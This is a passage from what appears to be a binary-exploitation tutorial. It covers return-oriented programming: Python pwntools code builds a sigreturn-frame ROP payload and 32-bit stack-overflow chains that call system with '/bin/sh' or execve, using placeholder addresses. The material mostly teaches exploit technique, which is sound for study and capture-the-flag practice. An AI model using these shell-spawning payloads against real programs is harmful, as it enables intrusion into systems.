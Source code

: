 ```python
    frame.rdx = 0           # NULL
    frame.rip = syscall_gadget
    
    # ROP chain
    chain = [
        # Set RAX to 15 (sys_rt_sigreturn)
        pop_rax_gadget,
        15,
        syscall_gadget,     # sigreturn
        # Sigreturn frame follows
    ]
    
    payload = b'A' * 72
    payload += b''.join(p64(addr) for addr in chain)
    payload += bytes(frame)
    
    return payload
```

## 32-bit ROP Differences

### Calling Convention Differences

```python
#!/usr/bin/env python3
from pwn import *

def rop_32bit():
    """32-bit ROP uses stack for function arguments"""
    context.arch = 'i386'
    
    # 32-bit: arguments passed on stack
    # system(arg1) becomes:
    # [system_addr][return_addr][arg1]
    
    system_plt = 0x08048400
    bin_sh = 0x08049000
    exit_addr = 0x08048410
    
    chain = [
        system_plt,
        exit_addr,    # Return address from system
        bin_sh        # Argument to system
    ]
    
    payload = b'A' * 76 + b''.join(p32(addr) for addr in chain)
    return payload

def rop_32bit_multiple_args():
    """Multiple arguments in 32-bit"""
    # execve(filename, argv, envp)
    execve_addr = 0x08048500
    filename = 0x08049000
    
    chain = [
        execve_addr,
        0x41414141,   # Return address (dummy)
        filename,     # arg1: filename
        0x0,          # arg2: argv = NULL  
        0x0           # arg3: envp = NULL
    ]
    
    payload = b'A' * 76 + b''.join(p32(addr) for addr in chain)
```